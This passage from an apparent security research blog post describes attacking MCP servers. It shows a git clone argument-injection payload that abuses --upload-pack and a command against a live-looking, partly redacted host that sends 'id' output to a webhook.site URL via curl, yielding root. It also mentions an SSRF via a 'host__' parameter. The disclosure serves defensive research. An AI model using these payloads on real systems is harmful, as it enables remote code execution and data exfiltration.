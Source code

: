 The array in Python separates arguments cleanly, eliminating any possibilities for command injection. But can still _inject arguments_. Specifically, we can look at `git clone --help` to figure out what interesting options we can pass to confuse the command into doing something that will help us further.

There's a great collection of [Argument Injection Vectors](https://sonarsource.github.io/argument-injection-vectors/ "") on which you can search for `git-clone`. This links to a [writeup by SonarSource](https://www.sonarsource.com/blog/securing-developer-tools-argument-injection-in-vscode/#exploiting-an-argument-injection-on-a-git-clone-operation "") attacking Visual Studio Code which was doing a similar operation on user input. Their provided payloads can be simplified to the following in our case:

```hljs sh
git clone '-ush -c "id>/tmp/pwned"' 'file:///tmp/anywhere'
```

Note the use of `''` around arguments to ensure they are interpreted as single arguments in bash, simulating our case as best as possible. Using the `-u` ( `--upload-pack`) argument, we can provide a local command to run while handling _local protocols_, such as `file://`. Passing the above two arguments to our `g_clone` tool, it should act the same:

```hljs shell
$ mcpc http://174.███.██.██ g_clone '{"repo_url": "-ush -c \"id|curl https://webhook.site/41██████-████-████-████-██████████2f -d@-\"", "target_dir": "file:///tmp/anything"}'

Cloning into 'anything'...
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100   194    0   156  100    38    500    121 --:--:-- --:--:-- --:--:--   623
fatal: protocol error: bad line length character: This
```

Sure enough, it writes the output of `id` to a `curl` that exfiltrates it in a way that we can read it:

![Screenshot of webhook.site callback with root id output](https://blog.jaisal.dev/assets/mcp-git-clone-callback.png)

> `uid=0(root) gid=0(root) groups=0(root)`

There's no output better than that 🥹.

#### Strange SSRF with `host__` arguments

Strangely enough, _a lot_ of MCP servers seem to use some MCP API wrapper (this is just our running theory). They all seem to have their `version` set to `1.2.0` and have a parameter in their tools called `host__`. If you try to oast.fun it, you'll see it's vulnerable to SSRF. We're not quite sure what's causing this, so we'll leave it up to you guys to figure it out. If you do, just hit either of us up on discord, [atomicbyte](https://discord.com/users/704912145443323934 "") or [j0r1an](https://discord.com/users/298743112421867521 ""), thanks!

## Conclusion

This was quite a wild ride, while we should expect everything involving AI to be vulnerable by default, it still surprised us how many things we could find in such a short amount of time. While working on this piece of research, a lot of other people were looking into attacking MCP as well, which scared us, did they find what we found?
